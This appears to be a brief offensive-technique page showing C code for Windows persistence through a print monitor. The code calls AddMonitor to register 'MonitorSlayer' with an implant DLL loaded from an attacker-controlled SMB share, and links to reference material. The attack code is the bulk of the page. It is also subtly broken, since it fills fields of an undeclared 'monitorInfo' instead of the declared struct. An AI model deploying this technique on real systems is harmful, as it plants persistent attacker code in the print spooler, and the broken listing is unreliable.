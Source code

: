 # Print Monitor

```c
#include <windows.h>
#include <winspool.h>

#pragma comment(lib, "winspool.lib")

int main() {
    //Build the struct req by AddMonitor
    MONITOR_INFO_2 mon;
    TCHAR name[14] = TEXT("MonitorSlayer");
    TCHAR arch[12] = TEXT("Windows x64");
    TCHAR dll[39] = TEXT("\\\\<attacker_IP>\\<share_name>\\implant.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = arch;
    monitorInfo.pDLLName = dll;

    //Add the monitor
    AddMonitor(NULL, 2, (LPBYTE)&mon);
    return 0;
}

```

---
## References

### Microsoft

- [WinAPI Documentation: `AddMonitor`](https://learn.microsoft.com/en-us/windows/win32/printdocs/addmonitor)

### Persistence Info

- [Persistence Info: Print Monitor](https://persistence-info.github.io/Data/printmonitor.html)

### Slayer Labs

- [Slayer Labs: Windows Persistence via Port Monitors](https://posts.slayerlabs.com/monitor-persistence/)
